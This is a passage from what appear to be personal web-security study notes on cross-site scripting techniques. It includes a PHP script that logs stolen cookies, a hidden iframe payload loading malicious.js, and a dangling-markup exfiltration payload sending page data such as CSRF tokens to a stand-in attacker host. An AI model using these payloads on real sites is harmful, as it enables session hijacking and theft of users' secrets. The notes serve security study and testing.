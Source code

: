 Server:

```php
<?php
$filename = "/tmp/log.txt";
$fp = fopen($filename, 'a');

$cookie = $_GET['q'];
fwrite($fp, $cookie);
fclose($fp);
?>
```

## iframe redirection

Payload:

```jsx
<iframe src="192.168.1.55/malicious.js" height="0" width="0"></iframe>
```

## Dangling markup injection

>[!question] What is dangling markup injection?
>Dangling markup injection is a technique that can be used to capture data cross-domain in situations where a full cross-site scripting exploit is not possible, due to input filters or other defenses. Any attribute that makes an external request can be used for dangling markup.

Often used to capture sensitive information visible to users, like:
- CSRF token
- API keys
- Secrets
- Email messages

>[!example]
>Application code injecting user-supplied data inside the `value` field: `<input type="text" name="input" value="CONTROLLABLE DATA HERE`
>In case there is WAF or something preventing XSS, attacker can exfiltrate data using a payload like `"><img src='//attacker-website.com?`
>
>This payload creates an `img` tag and defines the start of a `src` attribute containing a URL on the attacker's server. Note that the attacker's payload doesn't close the `src` attribute, which is left "dangling". When a browser parses the response, it will look ahead until it encounters a single quotation mark to terminate the attribute. Everything up until that character will be treated as being part of the URL and will be sent to the attacker's server within the URL query string. Any non-alphanumeric characters, including newlines, will be URL-encoded.
>

### Password reset poisoning via dangling markup

![Password reset poisoning via dangling markup](Password%20Reset%20Poisoning.md#Password%20reset%20poisoning%20via%20dangling%20markup)

### XSS + Dangling Markup + CSP bypass + CSRF


[^css-k]: https://github.com/maxchehab/CSS-Keylogging
[^video]: [The Curse of Cross-Origin Stylesheets - Web Security Research](https://youtu.be/bMPAXsgWNAc?si=fsmfIXeraW_2bDOM&t=317)
[^CSP-JSONP]: [Riding the Waves of API Versioning Unmasking a Stored XSS Vulnerability, CSP Bypass Using YouTube OEmbed](../../Readwise/Articles/SMHTahsin33%20-%20Riding%20the%20Waves%20of%20API%20Versioning%20Unmasking%20a%20Stored%20XSS%20Vulnerability,%20CSP%20Bypass%20Using%20YouTube%20OEmbed.md), SMHTahsin33
[^1]: https://portswigger.net/web-security/cross-site-scripting/preventing